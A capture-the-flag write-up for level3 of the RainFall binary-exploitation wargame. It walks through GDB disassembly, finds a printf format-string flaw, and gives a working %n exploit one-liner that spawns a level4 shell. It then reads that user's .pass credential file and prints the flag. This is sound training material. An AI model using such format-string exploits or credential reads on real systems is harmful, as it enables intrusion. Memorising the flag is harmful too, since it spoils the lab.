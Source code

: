 # **Level3**

In this level, we found a binary that takes input and prints it:

```bash
level3@RainFall:~$ ./level3
qww
qww
level3@RainFall:~$
```

## **Binary Analysis**

Using GDB, we analyzed the binary and found that the `main` function simply calls the function v:

```bash
(gdb) disas main
Dump of assembler code for function main:
0x0804851a <+0>:	push   %ebp
0x0804851b <+1>:	mov    %esp,%ebp
0x0804851d <+3>:	and    $0xfffffff0,%esp
0x08048520 <+6>:	call   0x80484a4 <v>
0x08048525 <+11>:	leave
0x08048526 <+12>:	ret
End of assembler dump.
(gdb)
```

Analyzing the `v` function reveals that the program uses **`fgets`** to read input into a buffer, which is then passed directly to **`printf()`**. The function also compares a global variable, **`m`** (located at **`0x804988c`**), with **`0x40`** (64). If the comparison succeeds, it calls **`system`**.

```nasm
(gdb) disas v
Dump of assembler code for function v:
0x080484a4 <+0>:	push   %ebp
0x080484a5 <+1>:	mov    %esp,%ebp  ; Allocate 536 bytes on stack
0x080484a7 <+3>:	sub    $0x218,%esp
0x080484ad <+9>:	mov    0x8049860,%eax
0x080484b2 <+14>:	mov    %eax,0x8(%esp)
0x080484b6 <+18>:	movl   $0x200,0x4(%esp) ; Size = 512
0x080484be <+26>:	lea    -0x208(%ebp),%eax  ; Buffer address
0x080484c4 <+32>:	mov    %eax,(%esp)
0x080484c7 <+35>:	call   0x80483a0 [fgets@plt](mailto:fgets@plt)
0x080484cc <+40>:	lea    -0x208(%ebp),%eax
0x080484d2 <+46>:	mov    %eax,(%esp)
0x080484d5 <+49>:	call   0x8048390 [printf@plt](mailto:printf@plt)
0x080484da <+54>:	mov    0x804988c,%eax ; Load value of 'm'
0x080484df <+59>:	cmp    $0x40,%eax ; Compare with 64
0x080484e2 <+62>:	jne    0x8048518 <v+116> ; Jump if not equal
0x080484e4 <+64>:	mov    0x8049880,%eax
0x080484e9 <+69>:	mov    %eax,%edx
0x080484eb <+71>:	mov    $0x8048600,%eax
0x080484f0 <+76>:	mov    %edx,0xc(%esp)
0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
0x080484fc <+88>:	movl   $0x1,0x4(%esp)
0x08048504 <+96>:	mov    %eax,(%esp)
0x08048507 <+99>:	call   0x80483b0 [fwrite@plt](mailto:fwrite@plt)
0x0804850c <+104>:	movl   $0x804860d,(%esp)
0x08048513 <+111>:	call   0x80483c0 [system@plt](mailto:system@plt)
0x08048518 <+116>:	leave
0x08048519 <+117>:	ret
End of assembler dump.
(gdb)
```

**Format String Analysis**

```nasm
level3@RainFall:~$ ./level3
AAAAAA %x %x %x %x %x %x %x
AAAAAA 200 b7fd1ac0 b7ff37d0 41414141 25204141 78252078 20782520
level3@RainFall:~$
```

- Our input (`AAAAAA`) starts appearing at the 4th stack position.
- The stack contents show memory addresses and input fragments in hexadecimal:
    - **`200`**: Likely the buffer size (512 in decimal).
    - **`b7fd1ac0`**, **`b7ff37d0`**: libc addresses.
    - **`41414141`**: ASCII representation of `AAAA`.

## **Vulnerability**

The vulnerability lies in the unsafe use of **`printf()`**, where user input is passed directly without a format specifier. This enables a **format string attack**, allowing us to read and write arbitrary memory. Our objective is to modify the value of **`m`** (at **`0x804988c`**) to **`0x40`** (64).

## **Exploit**

We can use the format string vulnerability to write to the memory location of **`m`**. the **`%n`** format specifier writes the number of characters printed so far to the provided address.

Since we found that our input appears at the 4th position, we can create a more precise exploit:

1. We need to write **`0x40`** (64) to the address **`0x804988c`**
2. We can use **`%4$n`** to write to the 4th parameter
3. We need to ensure exactly 64 characters are printed before the **`%n`**

```python
# Target address (0x804988c in little-endian)
address = "\x8c\x98\x04\x08" 

# Padding to reach count of 64 bytes
padding = "y" * 60

# Write to 4th parameter using %n
write = "%4$n"

# Final exploit
exploit = address + padding + write # address(4 bytes) + padding (60)
```

1. Create exploit file

```bash
(python -c 'print "\x8c\x98\x04\x08" + "y" * 60 + "%4$n"'; cat) | ./level3
```

1. Result

```bash
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "y" * 60 + "%4$n"'; cat) | ./level3
�yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

```

## Flag

```bash
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
